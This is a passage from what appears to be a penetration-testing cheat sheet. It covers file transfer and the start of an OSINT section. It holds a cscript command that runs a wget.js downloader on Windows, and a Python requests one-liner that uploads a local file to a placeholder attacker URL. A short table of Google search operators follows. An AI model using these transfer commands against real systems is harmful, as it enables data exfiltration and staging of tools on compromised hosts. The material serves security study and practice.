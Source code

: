 2. Execute from Windows:

   ```cmd
   cscript.exe /nologo wget.js [LILNK] [FILE]
   ```

### Upload

#### Python

1. Start a python server

   ```bash
   python3 -m uploadserver
   ```

2. Upload

   ```bash
   python3 -c 'import requests;requests.post("[MY URL]",files={"files":open("[FILE]","rb")})'
   ```

The same procedure holds for the other languages.



# OSINT

## Google search

| Operator                | Operator Description                                         | Example                                             | Example Description                                          |
| ----------------------- | ------------------------------------------------------------ | --------------------------------------------------- | ------------------------------------------------------------ |
| `site:`                 | Limits results to a specific website or domain.              | `site:example.com`                                  | Find all publicly accessible pages on example.com.           |
| `inurl:`                | Finds pages with a specific term in the URL.                 | `inurl:login`                                       | Search for login pages on any website.                       |
| `filetype:`             | Searches for files of a particular type.                     | `filetype:pdf`                                      | Find downloadable PDF documents.                             |
